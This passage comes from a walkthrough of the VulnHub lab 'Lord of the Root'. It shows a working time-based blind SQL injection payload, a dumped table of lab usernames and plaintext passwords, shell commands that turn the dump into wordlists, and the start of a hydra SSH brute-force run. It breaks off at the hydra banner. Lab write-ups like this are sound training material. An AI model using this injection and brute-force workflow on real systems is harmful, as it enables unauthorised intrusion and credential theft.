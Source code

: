 	Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 7506 FROM (SELECT(SLEEP(5)))vOBo) AND 'enuE'='enuE&password=test&submit= Login

	Database: Webapp
	Table: Users
	[5 entries]
	+----+------------------+----------+
	| id | password         | username |
	+----+------------------+----------+
	| 1  | iwilltakethering | frodo    |
	| 2  | MyPreciousR00t   | smeagol  |
	| 3  | AndMySword       | aragorn  |
	| 4  | AndMyBow         | legolas  |
	| 5  | AndMyAxe         | gimli    |
	+----+------------------+----------+
	```
9. Create wordlist
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat sqlmap/192.168.236.10/dump/Webapp/Users.csv | cut -d ',' -f2 | sed 's/password//g' | awk 'NF' > passwords.txt
	
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat sqlmap/192.168.236.10/dump/Webapp/Users.csv | cut -d ',' -f3 | sed 's/username//g' | awk 'NF' > usernames.txt
	
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat usernames.txt 
	frodo
	smeagol
	aragorn
	legolas
	gimli
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat passwords.txt 
	iwilltakethering
	MyPreciousR00t
	AndMySword
	AndMyBow
	```
	
## TCP/22 (SSH) - Bruteforce

1.  Bruteforce SSH
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# hydra -L usernames.txt -P passwords.txt ssh://$ip -e nsr
	Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
